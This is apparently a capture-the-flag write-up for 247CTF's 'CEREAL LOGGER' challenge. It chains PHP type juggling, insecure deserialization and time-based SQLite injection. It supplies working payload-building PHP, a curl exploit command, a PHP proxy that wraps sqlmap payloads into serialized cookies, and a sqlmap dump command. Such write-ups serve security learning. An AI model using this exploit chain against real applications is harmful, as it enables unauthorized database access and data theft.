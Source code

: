 ```yaml
---
title: "Chaining SQLmap with a custom PHP proxy server | 247CTF"
date: 2024-06-16
categories: [CHALLENGES, CEREAL LOGGER]
tags: [CHALLENGES, CTF] 
---
```


Hi, in this writeup I will solve the new hard challenge `CEREAL LOGGER`, from [247ctf](https://247ctf.com/). I will also explain how I created a simple proxy server between `SQLmap` and the challenge server that can manipulate SQLmap requests.

## Challenge source code analysis.
![IMG1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/24a5b14d-3451-4ac3-a4e2-5855c6ce6cfb)

1) class `insert_log` is defined and has a property `new_data` has constant value "Valid access logged!"
and has `__destruct()` methode that create a new SQLite3 database connection using a database file located at `/tmp/log.db` and finally, an SQL query is executed to insert a log message `$this->new_data` into the `log` table of the database.

2) Main Script Logic: 
  - The code check if the cookie named `247` is set for incoming HTTP requests.
  - Split the cookie value at the dot with `explode(".", $_COOKIE["247"])` and Check if the second part of the split value concatenated with a random number between 0 and 247247247 equals the string "0".
  - If the condition is met, it decodes the first part of the cookie value from base64, unserializes it, and writes the result to `/dev/null` (which essentially discards the output).

## Spotting the bugs.

- The condition `explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"` is vulnerable to [Type juggling](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09) because it relies on PHP's type coercion, PHP uses loose comparison (==), which means it will attempt to coerce the types to make the comparison. For example, when comparing a string to a number, PHP will convert the string to a number.
- In the `__destruct()` method vulnerable to SQLi, the SQL query is constructed by directly concatenating the `new_data` property into the SQL statement, but what is `__destruct()` methode ? by asking google: 
![IMG2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3fff93f5-7be6-48c0-ad49-09670eac2244)

- Simple Testing: 
![IMG3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/ddbe1977-a921-4bfd-8c11-d2325a71a75e)

- At this point, we can identify another vulnerability: `insecure deserialization` because the script decode tha first part of the cookie before dot and then unserialize it directly using `unserialize()` function.

## Chaining of bugs 

1) Exoloiting type juggling vulnerability to bypass the if condition.

2) Build a class with same name and properties (Attributes or Variables). 

3) Injecting SQL payload in `new_data` attribute before serializing object and then encode it to base64 encoded data.

## Manuel Exploiting.

We can exploit the [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php) vulnerability by injecting data before a dot and then embedding `0e` after the dot. This allows us to bypass an if condition like `blablabla.0e`, For example, `"0e1234" == "0"` returns true because `0e1234` means `0 * 10^1234` which is zero, so whatever the random number come after e then the condition always returns true.  

In PHP, `0e1234` represents a number in scientific notation, where `0` is the coefficient and `e1234` indicates the exponent. However, because the coefficient is 0, the entire value is simply 0, regardless of the exponent, In scientific notation, the format is generally `n x 10^m`, where n is the coefficient and m is the exponent. In PHP, `0e1234` translates to `0 * 10^1234`, which is still 0.

![IMG4](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/89f5c1eb-c699-4b4c-9b36-fdd59ad3c464)

Now we can create class and try to inject SQL payload like: `0XMohomiester'); select 1 = randomblob(999999999);--`.

Note: The SQLite `randomblob()` function returns a blob containing pseudo-random bytes. The number of bytes is determined by its argument.


![IMG5](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3132b08b-bd51-4666-bc5e-08125625a523)

```php
<?php

class insert_log
{
  // SQLi payload here 
  public $new_data = "0XMohomiester'); select 1 = randomblob(999999999);--";
}
$obj = new insert_log();
// Serializing object 
$a = serialize($obj);
// Base64 encoding of serialized data and concatenate it with .0e 
$final_payload = base64_encode($a) . ".0e";
echo $final_payload;

```

Let's try it :

```shell
time curl -XGET https://a0351f3d2e04038e.247ctf.com/ -b '247=TzoxMDoiaW5zZXJ0X2xvZyI6MTp7czo4OiJuZXdfZGF0YSI7czo1MjoiMFhNb2hvbWllc3RlcicpOyBzZWxlY3QgMSA9IHJhbmRvbWJsb2IoOTk5OTk5OTk5KTstLSI7fQ==.0e'
```

![IMG6](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/645e72aa-4228-4a34-be67-ec1b684e9ac3)

as you can see that the response takes about 1.7 seconds with 502 status code, because we generate long number of bytes in `randomblob()` function, let's try if we created a only one byte: `randomblob(1)` 


![IMG7](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3e431425-c0fe-40aa-9d6e-25c16f4a7b44)

yes!, the time is is about 0.5 seconds now lets try to automate this task.



## Automated Exploitation

We can exploit this bug with sqlmap but we have a some problems here, the first is that the payloads must be serialized in objects and then encode it to clearly exploit the web application and extract flag from database.

we can create a simple local web application act as `proxy server` that manage sqlmap requests and edit on any payload to serialize it and then encode it and send the data to the challange server or instance.

![IMG8](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/e755af36-3dac-45ca-975d-3d84a5f8cd2e)


Here is a simple web application using PHP!

```php
<?php

$payload = $_GET['payload'];

class insert_log
{
    public $new_data;
    public function __construct($payload) {
        $this->new_data = $payload;
    }
}

$object = new insert_log($payload);
// serialize object and encode it.
$final_data = base64_encode(serialize($object));

$data = "$final_data" . ".0e";

$targetUrl = "https://a0351f3d2e04038e.247ctf.com/";

// Initialize cURL session
$ch = curl_init($targetUrl);

// Set cURL options
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

// Set the custom cookie
curl_setopt($ch, CURLOPT_COOKIE, "247=$data");

// Execute the cURL session and get the response
$response = curl_exec($ch);

// Close the cURL session
curl_close($ch);

// Output the response
echo $response;

```

we can deploy php server locally using: 
```shell
php -S 0.0.0.0:80
``` 
using sqlmap command: 
```shell
sqlmap -u "http://127.0.0.1:80/?payload=test" -p "payload" --dbms sqlite --technique=T --dump --level 5 --risk 3 --no-cast  --random-agent
```

Yessss! it works, sqlmap extract table names and data inside this tables: 

![IMG9](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/a3edd081-ee97-4f61-98f1-eac0a6ec8206)


![IMG10](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/6e17f82d-80ff-463e-848a-885b6d671b40)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
